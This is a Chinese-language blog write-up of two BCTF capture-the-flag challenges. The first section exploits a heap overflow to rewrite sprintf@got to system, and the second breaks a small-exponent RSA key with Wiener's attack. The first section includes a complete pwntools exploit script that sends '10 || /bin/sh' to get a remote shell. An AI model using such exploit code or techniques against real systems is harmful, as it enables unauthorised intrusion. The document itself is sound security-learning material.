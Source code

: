 ```yaml
---
title: BCTF writeup
author: rk700
layout: post
tags:
  - exploit
  - crypto
---
```


周末参加了今年的第一次CTF，BCTF。由于这次CTF是面向国际的，所以题目的质量都比较高，种类也比较单纯，以逆向、溢出为主。这次确实是一个非常难得的锻炼机会，让我们体验到了国际水平CTF的难度。

我们队做出了5道题，我做出了zhongguancun和warmup。在这里记录下我思考的过程。

## zhongguancun

是我在周日下午才做出来的。（差距啊……）

我的习惯是，首先通读一遍IDA F5得到的伪代码。但读完后没有发现什么明显的漏洞。具体的，可以创建不同种类的商品，最多16个。有一个全局的数组保存这些商品的指针，而每个商品的结构体中，除了保存我们提供的描述信息、价格等，还在结构体的起始处存有函数指针数组。这里面的函数是在某些步骤下要调用的。此外，还可以汇总现有的商品，生成一个menu，里面记录了商品的所有信息。

第一天找溢出点就花了好久……因为一直没有发现那种很明显的覆盖。最后，是比较了malloc分给menu的大小和menu最多可能存放的内容长度，才发现了溢出点。而且要做到溢出还是比较苛刻的，不仅商品的数目要达到最大，每个商品里的信息长度也要最长，就连商品的价格也要使得printf打印出来的尽可能长（所以价格是负数，就为了多那一个负号）。这样的结果是，生成的menu的长度可以超过malloc分配的长度，覆盖后面的内容。

而menu和商品都是在heap上储存的，如果在menu的后面存有商品，那么上述的溢出就可以修改那个商品的结构体。通过实验发现，我们先生成menu，再添加商品，那么这新添加的商品在heap的地址就在menu的地址之后了。通过计算可得，溢出可以覆盖menu下一个block的前5个字符，所以正好可以覆盖那个商品保存的函数数组。于是我的想法是，先添加第一个商品（因为如果没有商品就不能生成menu），再生成menu；再添加15个商品，再次重新生成menu（用的地址还是前面分配给menu的地址）。这样的话，第二个商品的函数数组就被覆盖了。之后我们再对这个商品进行访问，就可以调用我们提供的函数了。

但是，到这里才刚开始……函数数组里有两个函数，每一个在调用之前都会做检查。如果往函数数组里读`/dev/zero`成功，那么就认为检查不通过。也就是说，要求我们覆盖后的地址是不可写的，GOT这种运行时可写的就不满足要求。这一点我觉得是这道题的关键（最后发现flag里也说到了这一点）

我试着打印.text段里包含的函数指针，发现没有找到什么好用的。最后只能将目光放在原本的函数数组上。这两个函数，一个是用来生成商品的menu内容，参数是商品指针和用来存放所生成字符串的地址；另一个则是计算价格，参数是商品指针和购买数量。我突然发现，如果在应该调用第二个函数时，调用了第一个，那么就可以实现往任意地址写内容了。这是因为，第二个参数--我们提供的购买数量，会被当作是要保存menu信息的字符串地址，`sprintf`往里面写内容。

然而到这里，这个向任意地址写内容的漏洞还是不太实用。因为`sprintf`所写的内容一直到非常靠后面才是我们可控的，即就是说为了修改某地址，我们需要从这个地址的前面就开始覆盖，而这就有一定的局限性。比如说要覆盖GOT第一个的`sprintf`，就需要从GOT前面很远的地方开始写，而不幸的是，那里是不可写的。这个问题也是困扰我比较久的一处。

最后发现了不自然的地方。（又是不自然之处，我觉得我很多题目都是从那些看上去很别扭的地方突破的）具体地，程序里预先定义了商品的不同类型，而且我们也只能选择其一，但这些商品类型字符串居然没有保存在`rodata`里面。一般来说这些都是字符串常量的。这就是不自然的地方。也就是说，我们利用前面的向任意地址写内容的漏洞，去修改这些商品类型字符串的内容；进一步，在后面再次调用有问题的生成menu信息的函数时，所用的商品类型信息变成了我们刚刚修改的，而这些信息恰好就被`sprintf`打印在最开始了。这就解决了上面提到的问题，不需要在目标地址之前开始覆盖了。

于是，我们有了一个可用的向任意地址写任意内容的漏洞。下面所做的，我首先是打印库函数地址来检查ASLR。因为有提供`libc.so`，所以通过某个函数地址泄露就可以得到`system`的地址。我是通过改写存放商品指针的数组内容来做到这一点的。具体地，改写存放所有商品指针的数组的某一项，然后在购买该项时选择"buy buy buy"，计算剩余金钱。这样就会取读这个商品指针后面`ptr+0x76`处的4 bytes作为商品的价格，于是由剩余的金钱就可以计算出商品的价格，即`ptr+0x76`处的内容。当然实际操作时，程序还会检查剩余金额需要非负。这一点，我们可以先买价格为负数的其他商品，使得总金钱变的足够大后再去买。

通过检查GOT里库函数地址，我发现虽然ASLR开启了，但库函数地址只有中间2个bytes被随机化了，也就是说最多只有256种可能，这和我见到的的ASLR相比太少了。这也直接导致我最后使用暴力碰撞地址的办法。因为时间紧迫，我没有分析出如何将计算得到的`system`的地址再写回（有知道的大牛请不吝赐教哈），而是猜测`system`的一个可能的地址，然后反复跑直到真正的地址恰好是我所猜测的。具体地，修改`sprintf@got`为这个我猜的`system`的地址，那么在执行计算价格时，`sprintf`会作用到某个字符串buf上，而那里正好存放的是刚刚读入的购买商品的个数。于是我如果输入`10 || /bin/sh`，那么`atoi`会返回10，通过检查，紧接着的`sprinf`就会变成调用`system("10 || /bin/sh")`，执行shell了。不过这里我后来想改`atoi@got`应该也可以，而且更方便。

于是，我开始一遍遍地跑，希望我猜测的地址能够碰上。跑了大概20几次，终于撞上了。得到flag是`BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}`。好吧，readonly check，我也是第一次见到这样的，学习了。

下面是python代码，其中`system`的地址就是我猜测的。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    elf = ELF('zhong')

    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 6666)

#store name
    payload = "a\n" + "A"*63 + "\n"
    conn.recvuntil("Your choice? ")
    conn.send(payload)

    genPhoneDes = 0x08049b74

#content of GOT before function addresses are resolved
#len 18
    gotB4=[0x080486c6, 0x080486d6, 0x080486e6, 0x080486f6, 0x08048706, 0x08048716, 0x08048726, 0xf7cc5570, 0x08048746, 0x08048756, 0x08048766, 0x08048776, 0x08048786, 0x08048796, 0x080487a6, 0x080487b6, 0x080487c6, 0x080487d6]
    
    system = 0xf7433da0
#rewrite the 1st entry(sprint) as system, and make sure the other function calls won't crash
    funcAddr = [system] + gotB4[1:]

#create the 1st product
    payload = "a\n" + "B"*31 + "\n4\n-1011111111\n" + "CC" + ''.join([p32(x) for x in funcAddr]) + p32(genPhoneDes) + "D\n"
    conn.recvuntil("Your choice? ")
    conn.send(payload)

#generate the menu
    conn.recvuntil("Your choice? ")
    conn.send("c\n")

#create the following product
    for i in range(1,16):
        conn.recvuntil("Your choice? ")
        conn.send(payload)

#generate the menu again
    conn.recvuntil("Your choice? ")
    conn.send("c\n")

#write to addr storing phone type string 
    blackberry = 0x0804b0fc
    payload = "d\nb\n2\nb\n" + str(blackberry-60) + "\n"
    conn.send(payload)
    
#rewrite sprintf@got
    sprintfGot = 0x0804b00c
    payload = "b\n" + str(sprintfGot) + "\n"
    conn.send(payload)
    conn.recvuntil("Your choice? ")

#calculate wholwsale price of another product
    payload = "c\nb\n5\nb\n"
    conn.send(payload)
    conn.recvuntil("How many do you plan to buy?")

#call sprintf which is system now
    cmd = "/bin/sh"
    payload = "10 || " + cmd + "\n"
    conn.send(payload)

    conn.interactive()
{% endhighlight %}

后记：阅读其他人的writeup，才知道可以不用暴力碰撞的……只需要通过对`atoi@got`进行一个相对的修改，改为`system`即可。而这是可以通过将`atoi@got`改为存放金钱的指针来完成，然后在减去花费的金额时就可以对那里操作了。太巧妙了！

## warmup

这道题只有50分，应该不难，但我是一直到周一凌晨1点多才做出来……

这道题是RSA，给了密文`c`和公钥文件，从中可以获得公钥`e`, `n`。发现`e`非常大，几乎和`n`是同阶的，这非常不自然，因为我常见到的`e`都是很小的。最后我是在查看RSA的wiki时，发现说密钥`d`应该足够大，否则会有Wiener攻击破解。而联想到这么大的`e`，我猜想`d`可能会很小，没想到试了下真的是这样……我是直接用[这里](https://github.com/pablocelayes/rsa-wiener-attack)的现成的代码，并且设置`sys.setrecursionlimit`为10000，用了大概一分多钟得到了密钥`d`。之后就是简单的指数运算，得到明文`p=0x424354467b3965745265613479217d`，即`BCTF{9etRea4y!}`。

## 感想

虽然我们的成绩并不是那么突出，但这次比赛还是很有意义的。其实从总体来看，感觉国内的队伍对web方面的题目还是比较熟练，国外队伍则是在溢出、逆向这些方面比较强。而这次比赛，有大量大分值的溢出逆向题目，所以最后的成绩，国内队伍和国际顶级队伍还是有不小差距。也许溢出逆向为主是国际比赛的主流风格了。不 管怎样，我相信我们国内的队伍也会在这方面不断提高的，我也希望能够和爱好信息安全的小伙伴们共同探讨学习，提高水平。

